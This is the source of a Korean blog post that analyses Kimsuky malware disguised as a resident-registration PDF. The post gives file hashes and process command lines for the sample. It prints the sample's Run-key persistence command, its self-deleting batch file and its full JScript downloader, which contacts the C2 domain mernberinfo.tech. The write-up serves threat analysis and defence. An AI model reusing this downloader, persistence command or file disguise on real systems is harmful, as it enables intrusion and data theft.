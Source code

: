 ```yaml
---
layout: post
comments: true
categories: posts
title: 김수키(kimsuky) 조직, 주민등록등본 파일로 둔갑한 악성코드 분석
subtitle: Operation Blue Estimate Part3
author: cainstorm
featured-image: /images/header/header_001.jpg
tags: [malware]
date-string: FEB 07, 2020
---
```

<script src="//ajax.googleapis.com/ajax/libs/jquery/1.9.1/jquery.min.js"></script>
<script>window.jQuery || document.write('<script src="_/js/libs/jquery-1.9.1.min.js"><\/script>')</script>

<h1>Malware Analysis</h1>
### Description
지난 2013년 카스퍼스키랩을 통해 처음 명명된 '김수키(Kimsuky)' 오퍼레이션은 현재까지도 새로운 방식으로 진화를 거듭하며 한국을 타킷으로 한 APT 공격을 지속하고 있다. 김수키 조직은 북한 정부의 지원을 받고 있는 해킹조직으로 알려져 있다.

> Filename : 주민등록등본.pdf(다수 공백 포함).scr
> - MD5 : 20add5eb5fbe527a8b6090a08e7636a6
> - SHA1 : 347d2339fd27606df7b4f659a122c453560a44cb
> - SHA256 : 4942433b92198ed6f4cf5890fd4a7c56f0e6bd79dec3112844a5a25e25425b1b
> - Filesize : 	1.03 MB (1081856 bytes)
> - Detection (Virustotal **46/71**)
>  - ALYac : Trojan.Dropper.1081856K
>  - AhnLab-V3 : Backdoor/Win32.Kimsuky.C3980661

### Analysis
- PDF 문서로 위장된 아이콘을 사용하며, 파일 내부 실제로 보여지는 등본이미지가 포함된 것을 확인할 수 있다.
- 실제 화면보호기(SCR) 확장자를 통해 EXE 실행파일과 동일하게 실햄됨

<center>
    <div class="photoset-grid-custom" data-layout="1">
		<img src="/images/2020-02-07/2020-02-07-mal-001.png">
        [그림1] 파일 내부 확인(TIF 이미지 위, DLL 실행파일 아래)
        </div>
        
    <div class="photoset-grid-custom" data-layout="1">
		<img src="/images/2020-02-07/2020-02-07-mal-002.jpg">
        [그림2] 악성파일 실행 시 보여지는 주민등록등본 이미지
	</div>
</center><br>

## Process flow

<center>
    <div class="photoset-grid-custom" data-layout="1">
		<img src="/images/2020-02-07/2020-02-07-mal-003.JPG">
        [그림3] process flow
	</div>
</center>
<br>
### rundll32.exe
```
cmd /c reg add "hkcu\Software\Microfost\Windows\CurrentVersion\Run" \v "IEAutoUpdate" \f \t REG_SZ \d "C:\Windows\system32\regsvr32.exe /s /n \"C:\Users\username\AppData\Roaming\Microfost\Internet Explorer\AutoUpdate\update.dll\"
```
<br>
### cmd.exe
```
cmd \c C:\Users\username\AppData\Local|Temp\rns.bat"
```
<br>
### cmd.exe
```
cmd /c wscript.exe "C:\Users\username\AppData\Local\Temp\EEB7.tmp.JS"
"http://mernberinfo.tech/wp-data/?m=hitomi&p=02004c4f4f50"
"C:\Users\username\AppData\Roaming\Microfost\Internet Explorer\AutoUpdate\Database\02004c4f4f50_2020-02-07_14-14-48-518"
"(null)" "(null)"
```
<br>
### wscript.exe
```
wscript.exe "C:\Users\username\AppData\Local\Temp\EEB7.tmp.JS"
"http://mernberinfo.tech/wp-data/?m=dunan&p=02004c4f4f50&v=win6.1.0-sp1-x64"
"(null)""(null)""(null)" 
```
<br>
<center>
    <div class="photoset-grid-custom" data-layout="1">
		<img src="/images/2020-02-07/2020-02-07-mal-004.PNG">
        [그림4] wscript.exe 프로세스 command line 확인
	</div>
</center><br>

## 추가 파일 생성
 - 파일명 : rns.bat
 - path : C:\Users\username\AppData\Local\Temp\rns.bat
```
:Repeat1
del "C:\Users\username\Desktop\주민등록등본.pdf(다수 공백 포함).scr"
if exist "C:\Users\username\Desktop\주민등록등본.pdf(다수 공백 포함).scr" goto Repeat1
del "C:\Users\username\AppData\Local\Temp\rns.bat"
```
<br>
 - 파일명 : EEB7.tmp.JS
 - path : C:\Users\username\AppData\Local\Temp\EEB7.tmp.JS
```
fso=WScript.CreatObject("Scripting.FileSystemObject");
function func_download(uri,local_path) {
	rq=new ActiveXObject("MSXML2.ServerXMLHTTP");
    rq.open("get",uri,false);
    rq.send();
    if(rq.status==200) {
    	local_path_tmp=local_path+".tmp";
        if(fso.FileExists(local_path_tmp)) fso.DeleteFile(local_path_tmp);
        sl=new ActiveXObject('ADODB.Stream');
        sl.Open();
        sl.Type=1;
        sl.Write(rq.responseBody);
        sl.Position=0;
        sl.SaveToFile(local_path_tmp);
        sl.Close();
        if(fso.FileExists(local_path)) fso.DeleteFile(local_path);
        fso.MoveFile(local_path_tmp,local_path);
        return true;
    }
    return false;
}
try {
	func_download(WScript.Arguments(0), WScript.Arguments(1));
    } catch(e){} finally{
    	fso.DeleteFile(WScript.ScriptFullName);
    }
```

<center>
    <div class="photoset-grid-custom" data-layout="1">
		<img src="/images/2020-02-07/2020-02-07-mal-005.PNG">
        [그림5] %temp% 경로 아래 tmp 파일은 C2 Server 의 response 값을 저장
	</div>
</center>
<br>
 - 파일명 : Hero.dll
 - path : C:\Users\username\AppData\Roaming\Microfost\Internet Explorer\AutoUpdate\update.dll 
 - SHA256 : 9e004a659e8cb6236ac56671e4afa4b8fbb6f394807aa3decf6e268e17359ec6

<center>
    <div class="photoset-grid-custom" data-layout="1">
		<img src="/images/2020-02-07/2020-02-07-mal-006.PNG">
        [그림6] Hero.dll 실행 코드
	</div>
</center>
<br>
## 시스템 정보 수집
 - network adapter, Hdd, system 정보 수집
<br>
<center>
    <div class="photoset-grid-custom" data-layout="22">
		<img src="/images/2020-02-07/2020-02-07-mal-007.PNG">
        <img src="/images/2020-02-07/2020-02-07-mal-008.PNG">
        <img src="/images/2020-02-07/2020-02-07-mal-009.PNG">
        <img src="/images/2020-02-07/2020-02-07-mal-010.PNG">
        [그림7] system 정보 수집 코드
	</div>
</center>
<br>
##네트워크 연결
 - Domain : mernberinfo.tech, IP : 213.190.6.159[US] 로 해당 Host 에 대한 정보 전송 확인
 - 전송 정보 : Mac address, Os version
<br>
<center>
    <div class="photoset-grid-custom" data-layout="2">
        <img src="/images/2020-02-07/2020-02-07-mal-011.PNG">
        <img src="/images/2020-02-07/2020-02-07-mal-012.PNG">
        [그림8] 네트워크 연결을 통한 정보 전송 화면
	</div>
</center>
<br>
## 기타 행위
 - 자동 시작 Registry 등록
 - Path : HKCU\Software\Microfost\Windows\CurrentVersion\Run
 - IEAutoUpdate=C:\Windows\system32\regsvr32.exe /s /n
   "C:\Users\username\AppData\Roamming\Microfost\Internet Explorer\AutoUpdate\update.dll"
<br>
<center>
    <div class="photoset-grid-custom" data-layout="1">
        <img src="/images/2020-02-07/2020-02-07-mal-013.PNG">
        [그림9] Windows 자동 실행 등록
	</div>
</center>
<br>
<script src="/assets/js/jquery.photoset-grid.js"></script>
<script type="text/javascript">
    $('.photoset-grid-custom').photosetGrid({
    // Set the gutter between columns and rows
    gutter: '5px',

    // Wrap the images in links
    highresLinks: true,
      
    // Asign a common rel attribute
    rel: 'print-gallery',
    
    onInit: function(){},
    
    onComplete: function(){
        // Show the grid after it renders
        $('.photoset-grid-custom').attr('style', '');
    }
});
</script>


{% if page.comments %}
<div id="post-disqus" class="container">
{% include disqus.html %}
</div>
{% endif %}
